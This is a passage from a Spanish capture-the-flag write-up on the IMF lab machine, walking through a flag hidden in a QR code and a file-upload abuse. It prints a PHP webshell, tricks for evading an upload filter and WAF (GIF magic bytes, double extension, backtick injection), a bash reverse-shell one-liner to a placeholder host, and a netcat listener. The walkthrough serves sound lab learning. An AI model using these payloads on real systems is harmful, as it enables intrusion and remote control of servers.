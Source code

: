>Vemos una página que no figuraba en la web: `tutorials-incomplete`. Si entramos, nos encontramos con un código QR.

![[Pasted image 20240115020644.png]]({%link assets/img/imf/17.png%})

>Si lo escaneamos, nos da la cuarta flag. 

`flag4{dXBsb2Fkcjk0Mi5waHA=}`

>Si la decodificamos, nos encontramos con el nombre de un archivo php. 

![[Pasted image 20240115020850.png]]({%link assets/img/imf/18.png%})

![[Captura de pantalla (189).png]]({%link assets/img/imf/19.png%})

>Esto nos da pie a un abuso de subida de archivos. Nos creamos nuestro `webshell.php`:

```php
<?php
	echo system($_GET['cmd']);
?>
```

![[Captura de pantalla (190).png]]({%link assets/img/imf/20.png%})

>Si lo subimos, el servidor nos responde con un error.

```
Error: Invalid file type.
```

>Si cambiamos el `Content-Type` a `image/gif` y añadimos los Magic Bytes de los archivos GIF a nuestro archivo PHP, además de cambiar la extensión y tener una doble extensión (de `webshell.php` a `webshell.php.gif`), nos bloquea el Web Application Firewall (WAF).

```
Error: CrappyWAF detected malware. Signature: system php function detected
```

>Si probamos con cambiar la función `system()` a `eval()`, nos tira el mismo error. Sin embargo, indagando más, podemos inyectar comandos con los backticks (``).

![[Captura de pantalla (191).png]]({%link assets/img/imf/21.png%})

>En la respuesta podemos encontrar el nombre del archivo. Si vamos a `http://{imfIP}/uploads/{nombreDelArchivo}.gif`, nos está interpretando el código PHP.

![[Pasted image 20240115022309.png]]({%link assets/img/imf/22.png%})

>Nos entablamos una reverse shell con el comando `bash -c 'bash -i >& /dev/tcp/{localIp}/{localPort} 0>&1'`.

![[Pasted image 20240115022340.png]]({%link assets/img/imf/23.png%})

>Sin embargo, tenemos que ir al archivo dentro de la página para que se nos interprete. Nos ponemos en escucha en la terminal con netcat (`nc -nvlp {localPort}`) por el puerto que colocamos en el comando previamente inyectado, y nos adentramos en la web.
